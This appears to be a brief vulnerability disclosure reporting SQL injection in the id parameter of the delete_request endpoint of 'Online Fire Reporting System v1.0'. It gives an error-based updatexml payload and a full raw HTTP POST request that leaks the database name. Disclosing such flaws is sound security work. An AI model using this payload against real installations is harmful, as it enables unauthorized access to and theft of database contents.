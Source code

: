 # Online Fire Reporting System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15346/online-fire-reporting-system-phpoop-free-source-code.html

Vulnerability File: /ofrs/classes/Master.php?f=delete_request

Vulnerability location: /ofrs/classes/Master.php?f=delete_request, id

[+] Payload: id=6' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /ofrs/classes/Master.php?f=delete_request HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

id=6' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/170816897-77d37598-bfc5-491e-b868-8242fda4227d.png)

